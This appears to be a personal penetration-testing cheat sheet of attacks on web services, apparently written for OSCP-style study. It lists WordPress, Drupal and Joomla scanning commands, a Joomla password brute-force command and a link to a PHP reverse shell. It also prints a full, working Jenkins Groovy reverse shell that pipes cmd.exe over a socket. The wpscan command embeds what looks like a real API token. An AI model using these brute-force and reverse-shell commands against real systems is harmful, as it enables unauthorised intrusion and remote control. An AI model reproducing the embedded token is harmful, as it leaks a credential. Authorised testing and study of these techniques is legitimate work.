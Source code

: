 ```yaml
---
layout: blank
pagetitle: Attacking Services
---
```



**The best methodology for pentesting services is to usually just search "Pentesting {service name}"**

[https://github.com/saisathvik1/OSCP-Cheatsheet?tab=readme-ov-file](https://github.com/saisathvik1/OSCP-Cheatsheet?tab=readme-ov-file)
- Scroll down for services scanning

Wordpress
- `wpscan --url {url} -e u,vp,vt --plugins-detection aggressive --api-token lT8xySbw7gMN4a2SoFlwpEXI8BzPdEyDn1GAcdaGKAE`

Drupal
- `droopescan scan drupal -u {url}`

Joomla
- `droopescan scan joomla -u {url}`
- `sudo python3 joomla-brute.py -u {url} -w passwords.txt -usr {username}
    - [https://github.com/ajnik/joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce)

PHP
- [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php\_reverse\_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) - reverse shell (cross platform)

Jenkins
- Reverse shell:

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```